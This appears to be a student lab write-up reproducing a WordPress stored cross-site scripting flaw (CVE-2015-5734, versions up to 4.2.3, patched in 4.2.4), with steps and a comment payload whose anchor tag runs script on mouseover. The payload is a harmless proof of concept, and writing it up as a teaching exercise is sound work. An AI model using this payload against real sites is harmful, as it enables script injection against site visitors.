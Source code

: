# Steps
#### Step 1 - Log in as admin or editor

#### Step 2 - Inject XSS
######	Comment the payload.
	<a href='/wp-admin/' title="XSS" style="position:absolute;top:0;left:0;width:100%;height:100%;display:block;" onmouseover=alert(2)//' rel="nofollow">Hello World</a>




# The types / classes of vulnerabilities involved and any related CVE identifiers
#### Legacy Theme Preview Cross-Site Scripting (XSS)

#### CVE-2015-5734 



# Affected versions and patches
#### Affected version
###### WordPress <= 4.2.3 

#### Patched in
###### version 4.2.4



# Demo
![alt text](https://github.com/Mikhail-Kreytser/Cybersecurity-Week7/blob/master/XSS%202/Demo.gif "XSS Demo")

# References
#### https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2015-5734
